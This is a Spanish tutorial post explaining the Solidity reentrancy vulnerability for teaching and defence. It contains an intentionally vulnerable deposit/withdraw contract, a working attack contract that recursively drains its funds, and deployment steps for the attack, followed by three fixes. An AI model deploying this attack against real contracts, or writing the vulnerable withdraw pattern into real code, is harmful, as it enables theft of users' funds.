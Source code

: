 ```yaml
---
title: 'Solidity: Ataque Reentrancy'
description: 'Uno de los problemas de seguridad más comunes es el denominado Reetrancy que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Reetrancy Attack',
  description: 'One of the most common security problems is called Reetrancy, which causes recursive calls to the same function of a contract until the funds are emptied.'
}
prev: 'solidity-dos-attack'
next: 'solidity-cross-reentrancy-attack'
---
```


# Solidity: Ataque Reentrancy

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones

Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://external.ink?to=https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
  mapping(address => uint) public balances;

  // Deposito de ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Retiro de ETH
  function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
  }

  // Funciona auxiliar para visualizar el balance total del contrato
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
  EtherStore public etherStore;

  constructor(address _etherStoreAddress) {
    // Creamos la instancia de EtherStore.
    etherStore = EtherStore(_etherStoreAddress);
  }

  // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
  receive() external payable {
    // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
    if (address(etherStore).balance >= 1 ether) {
      etherStore.withdraw();
    }
  }

  // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
  function attack() external payable {
    require(msg.value >= 1 ether);
    etherStore.deposit{value: 1 ether}();
    etherStore.withdraw();
  }

  // Funciona auxiliar para visualizar el balance total del contrato.
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherStore`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

### ¿Qué sucedió aquí?

`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución.

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?

Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?

Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
  uint monto = balances[msg.sender];
  require(monto > 0);

  balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

  (bool sent, ) = msg.sender.call{value: monto}("");
  require(sent, "El envio de ETH ha fallado.");
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://external.ink?to=https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
  // ...

  function withdraw() public nonReentrant {
    // ...
  }
}
```

## Conclusión

Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://external.ink?to=https://platzi.com/cursos/seguridad-smart-contracts/) de **Platzi**.
